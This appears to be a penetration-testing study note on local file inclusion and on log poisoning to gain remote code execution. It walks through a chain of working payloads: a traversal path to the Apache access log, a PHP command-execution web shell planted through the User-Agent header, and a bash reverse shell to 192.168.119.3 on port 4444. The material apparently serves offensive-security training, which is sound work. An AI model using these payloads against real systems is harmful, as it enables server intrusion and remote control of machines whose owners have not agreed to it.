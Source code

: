 
LFI allows us to include a file in the applications running code. We can use LFI to execute local or remote files. We can also display the contents of non-executable files.

LFI functionally works the same way as a directory traversal but yields different results (execution vs reading) LFI functions as both - but directory traversal can read .php files.

### Log Poisoning

Log poisoning can be used to achieve RCE via LFI - by poisoning logs with malicious code.

1. find a directory traversal vulnerability by testing URL parameters.
2. test for LFI by attempting to inject malicious code into the log file of the webserver.
		1. `../../../../../../../../../../../var/log/apache2/access.log` - will spit out the contents of the access log if directory traversal vuln is present. We can see which information is stored in the log and try to change it to code - for example user-agent information can be replaced with php code and burpsuite.
3. change the user agent to `Mozilla/5.0 <?php echo system($_GET['cmd']); ?>`
4. request the log file and include a parameter for the command to be executed - the results of the command will now turn up in the log file once rendered by a php page.
5. `bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"` - utilize to get a reverse shell through the LFI vuln - this command will need to be URL encoded to account for the spacing - burpsuite will automatically do this if you use the request query parameter field.